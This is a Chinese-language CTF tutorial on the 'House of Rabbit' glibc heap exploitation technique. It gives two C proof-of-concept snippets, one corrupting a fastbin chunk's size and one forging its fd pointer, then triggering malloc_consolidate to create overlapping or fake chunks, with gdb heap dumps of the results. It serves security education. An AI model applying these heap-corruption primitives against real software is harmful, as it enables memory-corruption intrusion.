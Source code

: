 # House of Rabbit

## 介紹
House of rabbit是一種僞造堆塊的技術，早在2017年已經提出，但在最近兩個月纔在CTF比賽中出現。我們一般運用在fastbin attack中，因爲unsorted bin等其它的bin有更好的利用手段。

## 原理
我們知道，fastbin中會把相同的size的被釋放的堆塊用一個單向鏈表管理，分配的時候會檢查size是否合理，如果不合理程序就會異常退出。而house of rabbit就利用了在malloc consolidate的時候fastbin中的堆塊進行合併時size沒有進行檢查從而僞造一個假的堆塊，爲進一步的利用做準備。

由於原作者的[POC](https://github.com/shift-crops/House_of_Rabbit)需要的條件較多，這裏我直接介紹這個攻擊的本質即可。

`前提條件`:
1. 可以修改fastbin的fd指針或size
2. 可以觸發malloc consolidate(merge top或malloc big chunk等等)


下面來看一下POC
`POC 1`: modify the size of fastbin chunk
```cpp
unsigned long* chunk1=malloc(0x40); //0x602000
unsigned long* chunk2=malloc(0x40); //0x602050
malloc(0x10);
free(chunk1);
free(chunk2);
/* Heap layout
0000| 0x602000 --> 0x0 
0008| 0x602008 --> 0x51 ('Q')
0016| 0x602010 --> 0x0 
..... 
0080| 0x602050 --> 0x0 
0088| 0x602058 --> 0x51 ('Q')
0096| 0x602060 --> 0x602000 --> 0x0 
0104| 0x602068 --> 0x0 
...... 
0160| 0x6020a0 --> 0x0 
0168| 0x6020a8 --> 0x21 ('!')
0176| 0x6020b0 --> 0x0 
0184| 0x6020b8 --> 0x0 
*/
chunk1[-1]=0xa1; //modify chunk1 size to be 0xa1
malloc(0x1000);  //allocate a large chunk, trigger malloc consolidate
/*Chunk1 overlap with chunk2 now
gdb-peda$ telescope 0x602000 100
0000| 0x602000 --> 0x0 
0008| 0x602008 --> 0xa1 
0016| 0x602010 --> 0x7ffff7dd1c08 --> 0x7ffff7dd1bf8 --> 0x7ffff7dd1be8 --> 0x7ffff7dd1bd8 --> 0x7ffff7dd1bc8 (--> ...)
0024| 0x602018 --> 0x7ffff7dd1c08 --> 0x7ffff7dd1bf8 --> 0x7ffff7dd1be8 --> 0x7ffff7dd1bd8 --> 0x7ffff7dd1bc8 (--> ...)
0032| 0x602020 --> 0x0 
.....
0080| 0x602050 --> 0x0 
0088| 0x602058 --> 0x51 ('Q')
0096| 0x602060 --> 0x7ffff7dd1bb8 --> 0x7ffff7dd1ba8 --> 0x7ffff7dd1b98 --> 0x7ffff7dd1b88 --> 0x7ffff7dd1b78 (--> ...)
0104| 0x602068 --> 0x7ffff7dd1bb8 --> 0x7ffff7dd1ba8 --> 0x7ffff7dd1b98 --> 0x7ffff7dd1b88 --> 0x7ffff7dd1b78 (--> ...)
0112| 0x602070 --> 0x0 
0120| 0x602078 --> 0x0 
....
0152| 0x602098 --> 0x0 
0160| 0x6020a0 --> 0xa0 
0168| 0x6020a8 --> 0x20 (' ')

gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
                  top: 0x603450 (size : 0x1fbb0) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
(0x050)  smallbin[ 3]: 0x602050
(0x0a0)  smallbin[ 8]: 0x602000 (overlap chunk with 0x602050(freed) )
*/
```
`POC 2`:modify FD pointer
```cpp
unsigned long* chunk1=malloc(0x40); //0x602000
unsigned long* chunk2=malloc(0x100);//0x602050

chunk2[1]=0x31; //fake chunk size 0x30
chunk2[7]=0x21  //fake chunk's next chunk
chunk2[11]=0x21 //fake chunk's next chunk's next chuck
/* Heap laylout
0000| 0x602000 --> 0x0 
0008| 0x602008 --> 0x51 ('Q')
0016| 0x602010 --> 0x0 
......
0080| 0x602050 --> 0x0 
0088| 0x602058 --> 0x111 
0096| 0x602060 --> 0x0 
0104| 0x602068 --> 0x31 ('1')
0112| 0x602070 --> 0x0 
......
0144| 0x602090 --> 0x0 
0152| 0x602098 --> 0x21 ('!')
0160| 0x6020a0 --> 0x0 
0168| 0x6020a8 --> 0x0 
0176| 0x6020b0 --> 0x0 
0184| 0x6020b8 --> 0x21 ('!')
0192| 0x6020c0 --> 0x0 
......
0352| 0x602160 --> 0x0 
0360| 0x602168 --> 0x20ea1
*/
free(chunk1);
chuck1[0]=0x602060;// modify the fd of chunk1
/*
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x602000 --> 0x602060 (size error (0x30)) --> 0x0
*/
malloc(5000);// malloc a  big chunk to trigger malloc consolidate
/*
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
                  top: 0x6034f0 (size : 0x1fb10) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
(0x050)  smallbin[ 3]: 0x602000
(0x030)  smallbin[ 1]: 0x602060
*/
```

原理很簡單，就是通過修改fastbin chunk的size(如上面的POC 1所示)直接構造overlap chunk，或者修改fd(如面的POC 2所示)，讓它指向一個fake chunk，觸發malloc consolidate之後讓這個fake chunk成爲一個合法的chunk。

## 總結
House of rabbit的優點是容易構造overlap chunk，由於可以基於fastbin attack，甚至不需要leak就可以完成攻擊。大家可以通過例題的練習加深對這個攻擊的理解。

## 例題
1. HITB-GSEC-XCTF 2018 mutepig
2. 待補充








